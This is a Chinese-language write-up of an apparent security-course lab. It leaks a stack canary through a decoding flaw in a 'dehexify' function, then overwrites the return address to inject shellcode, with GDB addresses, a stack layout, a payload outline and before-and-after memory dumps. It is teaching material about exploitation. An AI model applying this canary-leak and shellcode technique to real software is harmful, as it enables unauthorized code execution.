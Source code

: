 ## Main Idea

根据提示，这个任务开启了Stack Canary，很明显我们需要对其进行绕过。这个实验降低了难度，Canary值不包含空字节。所以很明显，我们可以把Canary输出出来，再将其插入我们的payload中即可。

函数`dehexify`的功能是将输入的十六进制字符串进行解码。例如，输入`\x41`则解码为`A`。在函数中，首先会检查是否存在`\x`，然后接下来的两个字符直接跳过。所以，我们可以让输入的字符串的最后四个字节只包含`\x`，这样结尾的空字符就会被当作输入的一部分进行解码，程序会持续输出(包括Canary)，直到遇上下一个空字符。

## Magic Numers

我们需要获取如下信息：`buffer`和`answer`的地址，以及`dehexify`的返回地址。
```
(gdb) p &c.buffer
$1 = (char (*)[16]) 0xffffda6c
```

```
(gdb) p &c.answer
$2 = (char (*)[16]) 0xffffda5c
```

```
(gdb) i f
Stack level 0, frame at 0xffffda90:
 eip = 0x8049215 in dehexify (dehexify.c:15); saved eip = 0x8049341
 called by frame at 0xffffdab0
 source language c.
 Arglist at 0xffffda88, args: 
 Locals at 0xffffda88, Previous frame's sp is 0xffffda90
 Saved registers:
  ebp at 0xffffda88, eip at 0xffffda8c
```

我们很容易画出栈布局，这对接下来payload的构造有很大帮助：

```
[    rip   ]             [0xffffda8c]
[    sfp   ]             [0xffffda88]
[  padding ]             [0xffffda80]
[   canary ]             [0xffffda7c]
[ c.buffer ]             [0xffffda6c]
[ c.answer ]             [0xffffda5c]
```

## Exploit Structure

1. 发送 `12B Padding + \x\n` 到程序，这一步是为了泄露Canary值。
2. 发送 `32B Padding + Canary + 12B Padding + SHELLCODE_addr + SHELLCODE`到程序，这一步完成了SHELLCODE的注入。

## Exploit GDB Output

进行爆破前：
```
(gdb) x/16x &c.answer
0xffffda5c:     0xffffdbfb      0x00000002      0x00000000      0x00000000
0xffffda6c:     0x00000000      0x00000000      0xffffdfe1      0x0804cfe8
0xffffda7c:     0x6e61073c      0x0804d020      0x00000000      0xffffda98
0xffffda8c:     0x08049341      0x00000000      0xffffdab0      0xffffdb2c
```

进行爆破后：
```
(gdb) x/20x &c.answer
0xffffda5c:     0x41414141      0x41414141      0x41414141      0x07ed56b1
0xffffda6c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffda7c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffda8c:     0xb307ed56      0x41414141      0x41414141      0x41414141
0xffffda9c:     0xffffda90      0xdb31c031      0xd231c931      0xb05b32eb
```